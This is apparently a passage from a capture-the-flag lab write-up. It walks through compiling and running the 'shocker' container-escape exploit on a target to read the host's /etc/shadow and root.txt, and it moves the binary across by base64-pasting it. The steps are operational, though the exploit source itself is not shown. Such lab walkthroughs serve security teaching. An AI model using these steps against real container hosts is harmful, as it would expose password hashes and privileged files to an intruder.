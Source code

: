 #### /etc/shadow
Modify the line 130 and 133 of `shocker.c`
- Line 130: `/etc/hostname`
- Line 133: Select the file you would like to read
![](image18.png)

Compile:
```
gcc shocker.c -o shocker
```

Use base64 to send the file over:
```bash
$ cat shocker | base64 > shocker.b64
```

In the target:
```
$ echo 'AAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAJAA...' | base64 -d > shocker
$ chmod +x shocker
$ ./shocker
```
![](image19.png)

#### root.txt
First we modify the following lines of `shocker.c`:
![](image16.png)

Compile:
```
gcc shocker.c -o shocker
```

Use base64 to send the file over:
```bash
$ cat shocker | base64 > shocker.b64
```

In the target:
```bash
$ echo 'AAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAJAA...' | base64 -d > shocker
$ chmod +x shocker
$ ./shocker
```
![](image17.png)
